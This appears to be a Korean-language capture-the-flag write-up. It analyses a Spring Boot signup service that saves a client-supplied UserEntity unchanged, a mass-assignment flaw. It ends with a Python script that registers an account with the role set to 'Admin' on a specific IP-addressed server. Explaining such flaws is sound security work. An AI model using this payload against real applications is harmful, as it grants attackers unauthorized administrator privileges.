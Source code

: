 ```java
```
회원가입 부분을 봤는데 `UserEntity` 객체를 그대로 `.insertUser()` 메서드에 넣고 있는 것을 확인했다.    
     
```java
package com.vanni.getadminpage.user;

import com.vanni.getadminpage.user.dto.UserEntity;
import java.util.Optional;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

@Service
public class UserService {
   private final UserRepository userRepository;

   @Autowired
   public UserService(UserRepository userRepository) {
      this.userRepository = userRepository;
   }

   public boolean insertUser(UserEntity user) {
      Optional<UserEntity> sql = this.userRepository.findByUsername(user.getUsername());
      if (!sql.isPresent()) {
         if (user.getUsername().length() > 13 && user.getPassword().length() > 13) {
            UserEntity data = this.userRepository.save(user);
            if (data != null) {
               return true;
            }
         }

         return false;
      } else {
         return false;
      }
   }
   ...
}
```     
데이터베이스 테이블에 기존 닉네임이 있는지 확인하고, 넘어온 객체를 저장하고 있다. 
즉, 유저의 입력 값에 의해 UserEntity 객체 속성 값을 지정할 수 있어 권한을 유저가 설정할 수 있는 취약점이 발생한다.    
    
### Exploit Code     
```python
import requests 

url = "http://3.36.69.112:10003"

ID = "helloworldname6"
PW = "helloworldpassword6"

s = requests.session() 
r = s.put( # signup
    f"{url}/fsalke2j9sdfcjlz/MbyMx6EtyTm04EyJezkDTEPDipepro", 
    json={
        "username": ID,
        "password": PW, 
        "userinfo": {
            "role": "Admin"
        }
    }
)

print(r.text) 

```